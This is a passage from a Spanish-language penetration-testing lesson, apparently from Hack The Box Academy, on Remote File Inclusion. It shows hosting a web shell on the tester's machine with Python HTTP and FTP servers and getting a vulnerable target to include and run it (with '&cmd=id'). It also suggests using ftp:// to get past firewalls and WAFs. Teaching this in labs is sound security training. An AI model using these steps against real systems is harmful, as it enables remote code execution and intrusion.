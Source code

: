 # **Http**

Ahora, podemos iniciar un servidor en nuestra máquina con un servidor Python básico con el siguiente comando, como sigue:

Inclusión de archivos remotos (RFI)

```
xnoxos@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

```

Ahora, podemos incluir nuestro caparazón local a través de RFI, como lo hicimos antes, pero usando`<OUR_IP>`y nuestro`<LISTENING_PORT>`. También especificaremos el comando que se ejecutará con`&cmd=id`:

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

Como podemos ver, obtuvimos una conexión en nuestro servidor Python, y se incluyó el shell remoto, y ejecutamos el comando especificado:

Inclusión de archivos remotos (RFI)

```
xnoxos@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -

```

**Consejo:**Podemos examinar la conexión en nuestra máquina para garantizar que la solicitud se envíe tal como la especificamos. Por ejemplo, si vimos una extensión adicional (.php) se agregó a la solicitud, entonces podemos omitirla de nuestra carga útil

# **Ftp**

Como se mencionó anteriormente, también podemos alojar nuestro script a través del protocolo FTP. Podemos iniciar un servidor FTP básico con Python's`pyftpdlib`, como sigue:

Inclusión de archivos remotos (RFI)

```
xnoxos@htb[/htb]$ sudo python -m pyftpdlib -p 21[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None

```

Esto también puede ser útil en caso de que los puertos HTTP estén bloqueados por un firewall o el`http://`La cadena es bloqueada por un WAF. Para incluir nuestro script, podemos repetir lo que hicimos antes, pero usar el`ftp://`esquema en la URL, como sigue:
